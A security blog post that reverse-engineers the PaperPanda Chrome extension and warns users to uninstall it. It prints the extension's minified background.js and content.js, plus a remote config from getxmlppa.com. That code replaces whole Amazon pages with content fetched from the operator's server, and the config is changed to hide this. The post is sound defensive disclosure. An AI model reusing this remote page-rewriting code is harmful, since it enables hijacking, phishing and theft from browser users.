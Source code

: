 ```yaml
---
title: PandaPaper turns malicious
subtitle: Chrome extension modifies HTML and tries to hide it
author: maave
type: post
draft: false
date: 2025-01-27
categories:
  - Projects
tags:
    - chrome
    - extension
    - security
    - reverse engineering
---
```


{{< image src="/uploads/2025/paperpanda-dead.webp" alt="paper panda logo with X for eyes">}}

The "paywalling" of scientific research papers is an ongoing problem that hinders learning, hinders scientific research, and leaches profit from publicly-funded research. PaperPanda is a Chrome extension to download academic papers. Its intention is to find free links for published papers. 

However what PaperPanda does under-the-hood tells another story. I've unearthed malicious code in PaperPanda's Chrome extension and attempts to hide said malicious activity. This extension tried to modify my Amazon pages for unknown reasons - possibly a phisher or credit-card stealer. If you have this extension *UNINSTALL IT*. In this post I'll explain how this extension is malicious and how it hides that behavior.

<!--more-->

## Strange redirect

This morning I was just browsing the internet with Google Chrome. The regular - procrastinating on StackExchange Hot Network Questions - and I came across an old-English word I've never seen. So I highlighted the word, right clicked, and selected "Search Google for _____". Instead of going to Google, my search went to Yahoo. Huh? I checked the history and found a very suspicious domain: `search-yahoo-now.com`. My search was hijacked. Sound the alarm, we have a breach!

`https://search-yahoo-now.com/?guid=877e15a82fa0a426bfd4ce9a6d96625e4&ext=9&domain=google.com&cid=html&rdd=15&q=iwur%C3%B0ge`

I searched this domain on Google and found only one useful result: a reddit post that insinuated that PaperPanda was responsible. After checking the extension's recent reviews I saw multiple complaints about this. Case closed? Hell no, I need to know the extent of this hack. I'm going to rip this app apart, get proper evidence, and then lay blame.

## Extension investigation

Going into my Chrome profile folder, I searched the contents of all my extensions looking for something. I tried searching for this string. I couldn't find any instance of it, not in plaintext or base64 encoded (a common obfuscation technique). Unfortunately I have too many installed and can't audit the code for every single one.

Since I had a tip, but not proof, that it was PaperPanda, I did an in-depth review of the code. Chrome extensions are made with HTML and Javascript and hosted in the app data folder.

`C:\Users\Maave\AppData\Local\Google\Chrome\User Data\Default\Extensions`

PaperPanda's extension ID is `ggjlkinaanncojaippgbndimlhcdlohf` and the malicious version is `2.1.6`.

`C:\Users\Maave\AppData\Local\Google\Chrome\User Data\Default\Extensions\ggjlkinaanncojaippgbndimlhcdlohf\2.1.6_0`

Fortunately, viewing the code for a Chrome extension is easy and there aren't too many files. Unfortunately the code is "minified" which compacts the code and replaces function and variable names. I used Notepad++ with the plugin JSTools for formatting. A Javascript formatter will make it readable but the single-letter names are still difficult.

### Main files

`content.js` calls `background.js` which fetches a config from an external website `getxmlppa.com`. There are two endpoints, "config.php" and "install.php". The "install" endpoint appears unused and the endpoint returns nothing. The "config" is used directly by the extension and returns a JSON object.

#### File contents

[ZIP file of the extension](/uploads/2025/paperpanda_2.1.6.zip)

<details>
  <summary>background.js [SPOILER]</summary>

```
(function () {
    "use strict";
    const o = "https://getxmlppa.com/";
    async function i(n = !1) {
        const c = `${o}config.php?` + Date.now(), {
            config: t,
            configTimestamp: e
        } = await chrome.storage.local.get(["configTimestamp", "config"]);
        if (!n && Date.now() - (e || 0) < 3e5)
            return t;
        const a = await fetch(c).then(s => s.json());
        return chrome.storage.local.set({
            config: a,
            configTimestamp: Date.now()
        }),
        a
    }
    i(!0),
    chrome.runtime.onMessage.addListener((n, c, t) => {
        if (n === "get-config")
            return i().then(e => t(e)), !0
    }),
    chrome.runtime.onInstalled.addListener(function (n) {
        n.reason === "install" && fetch(`${o}install.php`)
    })
})();
```
</details>

<details>
  <summary>content.js [SPOILER]</summary>

```
(function () {
    "use strict";
    let f = l();
    async function l() {
        return await chrome.runtime.sendMessage("get-config")
    }
    async function m() {
        document.location.hostname;
        var o = document.documentElement.innerHTML;
        function a(t, e) {
            if (!e || e === e) {
                var n = t.exec(o);
                if (n && n.length > 1)
                    return n[1]
            }
            return !1
        }
        function s() {
            var t,
            e = ["citation_doi", "doi", "dc.doi", "dc.identifier", "dc.identifier.doi", "bepress_citation_doi", "rft_id", "dcsext.wt_doi"],
            n = document.getElementsByTagName("meta");
            return Array.prototype.forEach.call(n, function (r) {
                if (r.name && !(e.indexOf(r.name.toLowerCase()) < 0) && !(r.scheme && r.scheme.toLowerCase() !== "doi")) {
                    var c = r.content.replace("doi:", "").replace(/https?:\/\/(www\.)?doi\.org\//i, "").trim();
                    c.indexOf("10.") === 0 && (t = c)
                }
            }),
            t ? (console.log("found a DOI from a meta tag: " + t), t) : null
        }
        async function i() {
            for (var t = (await f).p, e = 0; e < t.length; e++) {
                var n = t[e],
                r = a(new RegExp(n.regex), n.host);
                if (r)
                    return r
            }
            return null
        }
        async function d() {
            for (var t = [s, i], e = 0; e < t.length; e++) {
                var n = await t[e]();
                if (n)
                    return n
            }
            return null
        }
        var u = await d();
        return u
    }
    function g(o) {
        if (document.readyState !== "loading") {
            o();
            return
        }
        document.addEventListener("DOMContentLoaded", o)
    }
    function p(o) {
        return o.replace(/{[\w.]+}/, a => {
            const i = a.substr(1, a.length - 2).split(".").reduce((d, u) => d[u], window);
            return encodeURIComponent(i)
        })
    }
    const v = document.location + "";
    g(async() => {
        const o = (await f).s;
        function a() {
            for (const i of o)
                new RegExp(i.pattern, "gi").test(v) && [...document.querySelectorAll(i.selector)].filter(e => !e.hasAttribute("skip-element")).forEach(e => {
                    const n = e.style.display;
                    e.style.display = "none",
                    e.setAttribute("skip-element", !0),
                    fetch(p(i.url)).then(r => r.text()).then(r => {
                        const c = r.trim();
                        c && (e[i.attr] = c)
                    }).catch(() => {}).then(() => e.style.display = n)
                })
        }
        a(),
        new MutationObserver(() => a()).observe(document.body, {
            childList: !0,
            subtree: !0
        })
    }),
    chrome.runtime.onMessage.addListener((o, a, s) => {
        if (o === "get-doi")
            return m().then(i => s(i)), !0
    })
})();
```
</details>

<details>
  <summary>response from config.php aka config.json [SPOILER]</summary>

```
{
  "p": [
    {
      "regex": "\"doi\":\"([^\"]+)\"",
      "host": "ieeexplore.ieee.org"
    },
    {
      "regex": "SDM.doi\\s*=\\s*'([^']+)'",
      "host": "sciencedirect.com"
    },
    {
      "regex": "href=\"/doi/(10\\..+?)\"",
      "host": "psycnet.apa.org"
    },
    {
      "regex": "https?:\\/\\/doi.org\\/(10\\.\\d+\\/.*)",
      "host": "cairn.info"
    },
    {
      "regex": "article:article:(10\\.\\d+[^;]*)",
      "host": "inderscienceonline.com"
    }
  ],
  "s": [
    {
      "pattern": "^https?:\\/\\/(www\\.)?amazon\\.[a-z]{2,3}(\\.[a-z]{2})?\\/.*",
      "selector": "html",
      "attr": "innerHTML",
      "url": "https://getxmlppa.com/ama.php?p=amazon&u={location.href}"
    },
    {
      "pattern": "^https?:\\/\\/(www\\.)?amazon\\.[a-z]{2,3}(\\.[a-z]{2})?\\/.*",
      "selector": "head",
      "attr": "innerHTML",
      "url": "https://getxmlppa.com/ama.php?p=amazon&u={location.href}"
    },
    {
      "pattern": "^https?:\\/\\/(www\\.)?amazon\\.[a-z]{2,3}(\\.[a-z]{2})?\\/.*",
      "selector": "body",
      "attr": "innerHTML",
      "url": "https://getxmlppa.com/ama.php?p=amazon&u={location.href}"
    }
  ]
}
```
</details>

### Code breakdown

background.js contains code to fetch a JSON config from a remote website. The first thing I did was check the endpoints. I visited the url `https://getxmlppa.com/config.php` directly without any HTTP parameters. This config endpoint returned different information the first and second time I queried it. My original response is posted above, formatted for easier reading, no changes were made besides the whitespace formatting.

The first result included _regex to match Amazon URLs_ in the "s" array. When I queried it a second time, _the "s" array was empty_. Wow. We already found suspicious activity just by visiting a link. I cannot replicate this because the app loads content dynamically. The website is hiding its activity. I think I got lucky and I fetched the cached version on the first attempt.

I'm off to a good start. I was expecting Google or Yahoo links but I got Amazon. PaperPanda should not be touching Amazon URLs _ever_. I also found a new endpoint, `ama.php`

Let's walk through the code to determine what's it doing with this config. The suspect code is in content.js in the areas `g(o)`, `p(o)`, and the `g(async() => {` functions. The function `g(o)` creates a listener for page loading, then executes the async() function that was passed to it.

In this config JSON, the "p" array is used legitimately by the extension when you click the extension and "download this paper". "s" array is suspect and is used on page-load to replace part of the HTML contents. I'll explain what the JS code is doing:

1. add an event listener for DOMContentLoaded, to run after the page loads
2. check if the current URL matches a grep pattern (var "pattern" from array "s") and check if element has "skip-element" attribute
3. select HTML elements (using var "selector")
4. hide element
5. add "skip-element" attribute to avoid reprocessing
6. fetch remote content (from var "url")
7. replace one of the element's attributes (var "attr") with new content
8. unhide element

This makes the behavior entirely dependent on the config. In my config it's attempting to replace the entire HTML document for Amazon URLs

```
{
  "pattern": "^https?:\\/\\/(www\\.)?amazon\\.[a-z]{2,3}(\\.[a-z]{2})?\\/.*",
  "selector": "html",
  "attr": "innerHTML",
  "url": "https://getxmlppa.com/ama.php?p=amazon&u={location.href}"
},
```

recreating the steps with this config would cause this to happen:

1. add event listener DOMContentLoaded
2. check if URL matches amazon
3. select HTML element "html" (**the entire page**)
4. hide element
5. add "skip-element" attribute to avoid reprocessing
6. fetch content from `https://getxmlppa.com/ama.php?p=amazon&u={location.href}`
7. replace attribute "innerHTML" (**all of the page's code**) with content fetched
8. unhide element

This is malicious. This is trying to replace the entirety of my Amazon pages with its own content. PaperPanda has no reason to touch Amazon links. Without that config, this piece of code looks benign. It could be explained away by saying the code is intended to place URLs (it could, theoretically, replace the "url" attribute in anchor elements). With this config it's clear that this extension targeting websites outside its intended use. It is **malicious** and **trying to hide its behavior by changing configs**.

The endpoint `ama.php` responds with a 200 response but doesn't return any data, even with the params filled in. I'm unsure if the endpoint is nonfunctional, or if it was intentionally disabled when the config was changed. So the real goal of this content replacement is unknown. This app could have been stealing logins, credit card info, etc. It could've replaced affiliate information with its own like the recent Honey shopping extension scam. It could've done anything with any page. This is not accidental and not a result of some kind of library-inclusion-attack. PaperPanda targeted Amazon links and tried to _replace the entire HTML content_.

## Check yourself

If you have a page which you suspect of being hijacked, don't reload yet. Right click, inspect, then Ctrl+F and search for "skip-element". This attribute is not standard. If "skip-element" is anywhere in your HTML elements it's because of PaperPanda.

Get the stored config data from the Chrome console. Go to `chrome://extensions` and enable Developer Mode. Scroll to PaperPanda, click the link to "service worker" which will open Chrome DevTools. This should open straight to the Console tab. Type `chrome.storage.local.get(console.log)` to output the local storage. My extension already updated so the "s" array is empty.

Another way: On any page, open the PaperPanda extension, right click on it, inspect. This should be inspecting the extension, the DevTools window that pops up should be titled `chrome-extension://ggjlkinaanncojaippgbndimlhcdlohf/popup.html` Then in the Console tab of DevTools type `chrome.storage.local.get(console.log)` to output the local.

View the extension code yourself from chrome profile data. For me that's in: `C:\Users\UserName\AppData\Local\Google\Chrome\User Data\Profile 1\Extensions\ggjlkinaanncojaippgbndimlhcdlohf` because I have multiple profiles. If you have a single profile in Chrome then it would be in the "Default" folder: `C:\Users\UserName\AppData\Local\Google\Chrome\User Data\Default\Extensions\ggjlkinaanncojaippgbndimlhcdlohf`. The Javascript files have been minified so it needs to be formatted for reading. I used the Notepad++ plugin JSTool to format it. There are also plenty of JS formatters online. But the variable names and function names are still single letters so it's hard to follow.


## Conclusion

PaperPanda is hijacking web contents. I didn't find a Yahoo search redirect but instead I found an arbitrary page re-writer driven by a config that changes every time you load it. They attempt to evade detection by moving the payload to an external page. This garbage plugin has been installed on my Chrome for months and I only noticed because they performed a blatant redirect. Who knows what damage it caused, what information it stole, because it could have modified any website to have any content.

Uninstall this extension. Report it for abuse. _Distrust extensions that ask for permission to all websites_.

## Update (Feb 8 2025):

PaperPanda has been removed from the Chrome Web Store